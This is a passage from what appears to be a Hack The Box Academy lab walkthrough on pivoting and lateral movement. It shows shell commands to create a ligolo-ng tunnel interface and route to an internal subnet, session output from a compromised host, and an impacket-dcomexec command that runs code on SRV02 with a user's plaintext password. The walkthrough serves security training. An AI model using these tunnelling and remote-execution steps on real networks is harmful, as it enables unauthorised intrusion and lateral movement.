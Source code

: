 Subsequently, students need to return to their workstations, open a new tab, and proceed to add a new network interface based on their usernames in the workstation (e.g. `htb-ac-XXXX`) and the subnet of the internal network. Additionally, students will query the `my_credentials.txt` file located on the Desktop to get t

Code: shell

```shell
cat Desktop/my_credentials.txt | grep Username
sudo ip tuntap add user <htb-ac-XXXX> mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.20.0.0/24 dev ligolo
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ cat Desktop/my_credentials.txt | grep Username
Username: htb-ac-8414

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip tuntap add user htb-ac-8414 mode tun ligolo

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip link set ligolo up

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip route add 172.20.0.0/24 dev ligolo
```

Students will return to `ligolo`'s proxy console, use the `session` command, select the agent, and initiate the tunnel (they need to press `Enter` after session):

Code: shell

```shell
session
start
```

```
INFO[6389] Agent joined.                                 name="INLANEFREIGHT\\helen@SRV01" remote="10.129.229.244:49730"
ligolo-ng » session 
? Specify a session : 2 - #2 - INLANEFREIGHT\helen@SRV01 - 10.129.229.244:49730

[Agent : INLANEFREIGHT\helen@SRV01] » start
INFO[6744] Starting tunnel to INLANEFREIGHT\helen@SRV0
```

After establishing the tunnel to the internal network, students will use `impacket-dcomexec` from Impacket to connect to `SRV02` (`172.20.0.52`) using Helen's credentials:

Code: shell

```shell
impacket-dcomexec -object MMC20 INLANEFREIGHT/Helen:'RedRiot88'@172.20.0.52
```
